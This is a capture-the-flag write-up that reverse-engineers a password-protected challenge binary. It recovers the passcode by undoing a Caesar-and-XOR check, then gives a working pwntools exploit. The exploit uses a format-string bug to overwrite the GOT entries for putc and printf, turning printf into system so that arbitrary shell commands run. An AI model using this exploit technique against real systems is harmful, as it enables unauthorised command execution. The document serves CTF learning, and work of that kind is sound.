

Let's just do a binary analysis using **IDA Pro**.

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  unsigned int v4; // [rsp+Ch] [rbp-4h]

  sub_401216(a1, a2, a3);
  signal(14, handler);
  alarm(0x64u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  if ( (unsigned int)sub_401259() )
  {
    v4 = -1;
    fwrite("password mismatch!\n", 1uLL, 0x17uLL, stderr);
  }
  else
  {
    v4 = 0;
    sub_401448();
  }
  return v4;
}
```

### Password Crack

It turns out that this program asks for password input, if the password entered is correct, then the program will run `sub_401448()`. However, before that, let's look at the `sub_401259()` function.

```c
__int64 sub_401259()
{
  char v1; // [rsp+7h] [rbp-39h]
  unsigned int i; // [rsp+8h] [rbp-38h]
  int j; // [rsp+Ch] [rbp-34h]
  char s[40]; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 v5; // [rsp+38h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  for ( i = 0; i <= 0x1F; i += 4 )
    *(_DWORD *)&s[i] = 0;
  puts("Welcome to the digital vault of lost memories! ");
  puts("Enter the passcode to enter the lost memory world: ");
  printf(">>> ");
  fflush(stdout);
  fgets(s, 32, stdin);
  s[strlen(s) - 1] = 0;
  for ( j = 0; s[j]; ++j )
  {
    v1 = s[j];
    if ( ((*__ctype_b_loc())[v1] & 0x100) != 0 )
    {
      s[j] = (v1 - 65 + dword_404094) % 26 + 65;
    }
    else if ( ((*__ctype_b_loc())[v1] & 0x200) != 0 )
    {
      s[j] = (v1 - 97 + dword_404094) % 26 + 97;
    }
    s[j] ^= dword_404090;
  }
  return (unsigned int)-(memcmp("cLVQjFMjcFDGQ", s, 0xDuLL) != 0);
}
```

From the `sub_401259()` function we can see that the program performs a transformation on the password entered by the user. This transformation consists of two stages, namely Caesar cipher and XOR. After the transformation is complete, the program will compare the transformation result with the string `cLVQjFMjcFDGQ`. If the transformation result is the same as the string, the program will return a value of 0, otherwise, the program will return a value of -1.

```py
dword_404094 = 10   # The Caesar cipher shift value
dword_404090 = 53   # The XOR key

transformed_password = 'cLVQjFMjcFDGQ'
password = ''

for char in transformed_password:
    char = chr(ord(char) ^ dword_404090)

    if char.isupper():
        char = chr(((ord(char) - 65 - dword_404094) % 26) + 65)
    elif char.islower():
        char = chr(((ord(char) - 97 - dword_404094) % 26) + 97)
    
    password += char

print(password)
```

The correct password is `Lost_in_Light`.

### Format String Vulnerability

```c
int sub_401448()
{
  char s[136]; // [rsp+0h] [rbp-90h] BYREF
  unsigned __int64 v2; // [rsp+88h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  memset(s, 0, 0x80uLL);
  puts("How should we address you? ");
  printf(">>> ");
  fgets(s, 128, stdin);
  printf("hello ");
  printf(s);                                    // Format String
  printf("Here are the lost memories:");
  putc(10, stdout);
  return system("ls *.pdf");
}
```

From the `sub_401448()` function we can see that the program performs string formatting on the input given by the user. After that, the program will run `system("ls *.pdf")`. Because the program performs string formatting on the input given by the user, we can perform a string format attack to get the flag.

Because in string format we can write to the address we want, we can write to any address. Here I do a write on the `putc` function to return to the `sub_401448()` function and write on the `printf` function to run the `system` function.

```py
from pwn import *

binary = './challenge/chal'

# context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = process(binary)
# r = remote('vault.ctf.prgy.in', 1337, ssl=True)

payload = fmtstr_payload(6, {
  e.got['putc']: 0x401448,              # Overwrite putc with sub_401448
  e.got['printf']: e.symbols['system']  # Overwrite printf with system
}, write_size='short')

r.recvuntil(b">>> ")
r.sendline(b"Lost_in_Light")

r.recvuntil(b">>> ")
r.sendline(payload)

r.interactive()
```

When this works, then every time we enter input, what should have been `printf(s);` will become `system(s);` where we can do any command. However, on the server there will be some obstacles, namely all files on the server are `.pdf` files. To get or download the `.pdf` file, we can use the `base64` command to encode the `.pdf` file into base64 and then we decode it locally.

In the last `.pdf` file, we will get a flag.


